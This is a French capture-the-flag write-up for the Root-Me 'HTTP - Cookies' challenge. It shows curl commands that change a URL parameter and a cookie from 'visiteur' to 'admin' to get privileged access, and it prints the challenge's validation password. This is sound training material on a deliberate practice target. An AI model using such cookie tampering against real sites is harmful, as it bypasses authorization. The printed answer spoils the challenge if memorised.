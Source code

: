 Flag : 

---


## 23. HTTP - Cookies

### Une solution utilisant `curl`

On clique sur le lien nous permettant de voir les emails enregistrés, et on voit que l’URL se modifie comme suit :

```
http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```

On modifie alors la valeur `visiteur` par `admin`, mais cela nous retourne une erreur.

Regardons alors le header avec `curl` :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur"
```

On y voit un cookie avec la valeur : `ch7=visiteur`

Modifions à la fois la valeur de `Set-Cookie` et le paramètre `c` dans l’URL :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=admin" -b "ch7=admin"
```

On obtient bien en sortie :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=admin" -b "ch7=admin"
* Host challenge01.root-me.org:80 was resolved.
* IPv6: 2001:bc8:35b0:c166::151
* IPv4: 212.129.38.224
*   Trying [2001:bc8:35b0:c166::151]:80...
* Connected to challenge01.root-me.org (2001:bc8:35b0:c166::151) port 80
* using HTTP/1.x
> GET /web-serveur/ch7/?c=admin HTTP/1.1
> Host: challenge01.root-me.org
> User-Agent: curl/8.11.1
> Accept: */*
> Cookie: ch7=admin
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Wed, 29 Jan 2025 17:14:26 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Vary: Accept-Encoding
< 
<div>Validation password : ml-SYMPA
* Connection #0 to host challenge01.root-me.org left intact
</div></fieldset>   
Flag : 
```
